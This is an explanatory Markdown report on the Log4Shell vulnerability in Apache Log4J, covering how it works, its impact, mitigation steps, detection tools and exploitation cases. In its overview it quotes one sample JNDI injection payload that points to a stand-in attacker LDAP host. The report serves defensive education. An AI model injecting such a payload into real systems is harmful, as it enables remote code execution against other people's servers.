


# 🧩 Log4J Vulnerability Report

## 📌 Overview

**Log4J** is a widely used Java-based logging utility developed by the Apache Software Foundation. In December 2021, a critical vulnerability known as **Log4Shell** (CVE-2021-44228) was discovered, allowing remote code execution (RCE) through malicious input in log messages.

## 🔍 What Is Log4Shell?

- The vulnerability stems from **JNDI lookups** in Log4J versions 2.0 to 2.14.1.
- Attackers could inject payloads like `${jndi:ldap://malicious.com/a}` into logs.
- Log4J would resolve this and potentially execute remote code.

![Log4Shell Exploit Flow]

## ⚠️ Impact

- Affected millions of applications and services globally.
- Exploitable in default configurations.
- Used in attacks ranging from **crypto mining** to **data exfiltration**.

![Log4J Vulnerability Impact]

## 🛡️ Mitigation Steps

- **Upgrade to Log4J 2.17.1 or later**.
- Disable JNDI lookups: `log4j2.formatMsgNoLookups=true`.
- Use Web Application Firewalls (WAFs) to block exploit patterns.
- Monitor logs and network traffic for suspicious activity.

## 🧪 Detection Techniques

- Scan logs for suspicious JNDI strings.
- Use tools like:
  - `log4j-scan`
  - `nmap` with custom NSE scripts
  - `Burp Suite` passive scanner plugins

## 🧰 Tools for Testing

| Tool        | Purpose                          |
|-------------|----------------------------------|
| `log4j-scan`| Automated detection of Log4Shell |
| `nmap`      | Network scanning for vulnerable services |
| `Burp Suite`| Manual and automated web testing |

## 🚨 Real-World Exploitation Cases

- Attackers weaponized Log4Shell against **Minecraft servers**, corporate **VPNs**, and **cloud platforms**.
- Some campaigns dropped **cryptominers** on vulnerable targets.
- Advanced threat actors used Log4Shell to establish **persistence** and **lateral movement** in high-value targets.

## 📚 References

- [Apache Log4J Official Site](https://logging.apache.org/log4j/2.x/)
- [Log4J Vulnerability Explained – Medium](https://medium.com/avmconsulting-blog/log4j-vulnerability-for-dummies-13af42ce4266)
- [Log4J Security Advisory – NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
